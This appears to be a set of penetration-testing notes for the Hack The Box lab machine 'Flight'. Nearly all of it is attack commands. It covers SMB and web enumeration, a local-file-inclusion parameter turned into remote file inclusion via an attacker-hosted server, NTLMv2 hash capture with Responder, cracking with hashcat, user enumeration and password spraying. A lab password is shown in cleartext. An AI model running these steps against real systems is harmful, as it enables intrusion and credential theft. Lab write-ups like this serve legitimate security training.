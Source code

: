 		- queryusergroups RID
		- queryuser RID
- 445
	- smbclient -N -L //$IP
		- access denied
	- nmap --script smb-vuln* -p135,139,445 $IP
- 80
	- Default landing page
	- Versions
	- Subdomain finder
		- wfuzz -u http://10.10.11.187 -H "Host: FUZZ.flight.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 7069
			- School
	- Directory Brute force
		- dirsearch -u http://$IP
			- phpmyadmin
		- dirsearch -u http://school.$IP
			- blog.html
			- index.php
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
	- Vulnerability scan
		- nikto -h http://$IP
	- school.$IP
		- /index.php
			- Parameter - LFI
				- ?view=c:/windows/system32/drivers/etc/hosts
					- Returns valid page
			- LFI to RFI
				- python3 -m http.server 80
					- echo '<?php echo '0xdf was here'; ?>' > file.txt
				- ?view=http://A_IP/file.txt
					- If file loads then we can do RFI
					- If the text just appears and doesn't execute then its just read over RFI
				- We can capture hash with responder
					- Sudo responder -I tun0
					- Do RFI to read a file
					- Captures the NTLMv2 hash for svc_apache
					- Crack the hash
						- hashcat svc_apache-net-ntlmv2 /usr/share/wordlists/rockyou.txt
							- `S@Ss!K@*t13
- svc_apache
	- crackmapexec smb flight.htb -u svc_apache -p 'S@Ss!K@*t13' --shares
		- READ
			- IPC$
			- NETLOGON
			- SYSVOL
			- Shared
			- Users
				- User folders
			- Web
				- flight.htb
				- school.flight.htb
				- No useful in either folder
	- impacket-lookupsid flight.htb/svc_apache:'S@Ss!K@*t13'@flight.htb | grep SidTypeUser | cut -d' ' -f 2 | cut -d'\' -f 2 | tee users
		- Administrator, Guest, krbtgt, G0$, S.Moon, R.Cold, G.Lors, L.Kein, M.Gold, C.Bum, W.Walker, I.Francis, D.Truff, V.Stevens, svc_apache, O.Possum
		- Put all into a users.txt file
- Password spray
	- crackmapexec smb $IP -u users.txt -p users.txt
		- nothing
	- crackmapexec smb $IP -u users.txt -p 'S@Ss!K@*t13'
		- success:  S.Moon and svc_apache